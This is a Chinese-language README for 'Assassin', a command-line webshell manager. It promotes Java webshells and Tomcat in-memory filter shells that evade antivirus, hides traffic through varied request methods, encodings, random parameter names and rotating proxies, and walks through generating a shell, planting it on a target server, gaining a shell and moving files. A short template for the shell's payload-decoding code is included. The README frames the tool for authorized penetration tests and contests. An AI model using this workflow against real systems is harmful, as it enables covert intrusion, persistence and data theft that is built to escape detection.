# Assassin

>Assassin是一款精简的基于命令行的webshell管理工具，它有着多种payload发送方式和编码方式，以及精简的payload代码，使得它成为隐蔽的暗杀者，难以被很好的防御。

工具短小精悍，生成的webshell能够过常见杀软，尽量减少了连接后交互的流量特征，具体payload发送方式均可自定义。由于个人精力有限，~~因为懒而且菜~~，服务端暂时仅支持Java。

**声明：主要面向网络安全人员已授权的合法渗透或学生AWD等比赛使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担**

## 特点

**[1]** 生成的webshell能过常见杀软(webshell模板可以自定义修改)

**[2]** webshell仅1kb大小，客户端与服务端同类通信仅需加载一次字节码，后续流量只传送命令。

**[3]** payload能够以get、post、cookie、mixed四种方式发送，可动态修改，流量迷惑性较强

**[4]** 客户端与服务端交互流量支持多种编码方式，可动态修改

**[5]** payload发送的参数名以及数量均可自定义，支持随机ip代理和user-agent

## 软件截图

软件类似于MSF的操作模式








## 发送的payload流量示例



cookie：


post：


mixed：


get：


除了cookie方式，get、post、mixed可以在已经建立连接后动态修改发送方式，无需更改服务端

请求编码：
1. base64
2. base36
3. hex

响应编码：
1. base64
2. raw
3. base36
4. hex

其中响应的编码方式可以动态修改

## 使用教程

### 适用版本

服务端：jre 1.5及以上

客户端：jdk 1.8及以上

### 配置文件

```json lines
{
  "paramNames": ["user", "file", "id", "eid", "wd", "ie", "oq", "name", "son"],
  // get、post、mixed请求参数名的随机池
  "cookieNames": ["fid", "uuid", "eid", "home", "ief", "fl", "oop"],
  // cookie请求参数名的随机池
  "headers":{
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"Accept-Language: zh-CN,zh;q=0.9",
    "Upgrade-Insecure-Requests": "1"
  },
  // http头部
  "partNum": 3,
  // payload首次发送的分块数量
  "argNum": 5,
  // 每次请求的参数个数，不能超过paramNames或者cookieNames的参数个数
  "startRandomUserAgent": false,
  // 是否随机useragent
  "startIpAgents": false,
  // 是否开启ip池代理模式
  "startColor": true
  // 是否启用命令行颜色
}
```

随机useragent采用./useragents.txt里的useragent，开启后每次请求都会更换useragent，一般配合ip代理使用，关闭时是每次用session命令启动一个webshell会话一个useragent。

ip代理池使用./ipagents.txt，格式为```ip:posr;username:password```，不需要认证的话```ip:port```就可以了，开启后每次请求会从中选择一个代理。

**Tip：windows用户启动后乱码请关闭"startColor"，或者使用Windows Terminal启动**

### 帮助信息

所有命令使用都比较简单，可以通过help命令查看参数



```help [command]``` 查看具体命令的帮助



### 实例

用startup.bat或startup.sh启动

```bash
new java 123 cookie
# 生成密码为123 发送方式为cookie的普通jsp木马
new java pass post reqEncode=base36 tamper=tomcat9_filter
# 生成密码为pass 发送方式为post 请求用base36编码的tomcat9 filter内存马 
```
**Tips：add和new命令参数比较多，中括号包裹的可选参数还可以用key=value的方式赋值**

之后会弹出窗口选择保存位置



将webshell上到目标服务器

```bash
add http://192.168.48.130:8080/1.jsp 123 java method=cookie resEncode=base36
# 添加webshell 密码123 java马 cookie传参 请求编码默认base64 响应编码base36
```
```show```查看ID号


```session 1```连接webshell



看到提示符发生变化就可以执行webshell controller commands的命令了！
```bash
Assassin|java >getshell
Assassin|java|C:\apache-tomcat-9.0.54\bin >dir
```

上传文件

```bash
upload # 没参数默认传到当前目录
```



选择文件即可上传

```download ./test.txt```同理





### 编写webshell模板tamper



第一个部分用{@key}填充，代表 webshell密码

第二个部分用{@getvalue}填充，代表 获取请求payload的代码

第三个部分用{@decode}填充，代表 解码代码

模板如下：

```java
String k="{@key}";// aes密钥 123456 md5的前16位
String r = ""; //密文payload存放位置，这个参数名必须为r，其他的无所谓
// 取密文
{@getvalue}
byte[] cText = {@decode};
```

其他主要逻辑不改，就可以成功连接。

**实例**

请看webshell/java/下的tomcat的filter内存马模板


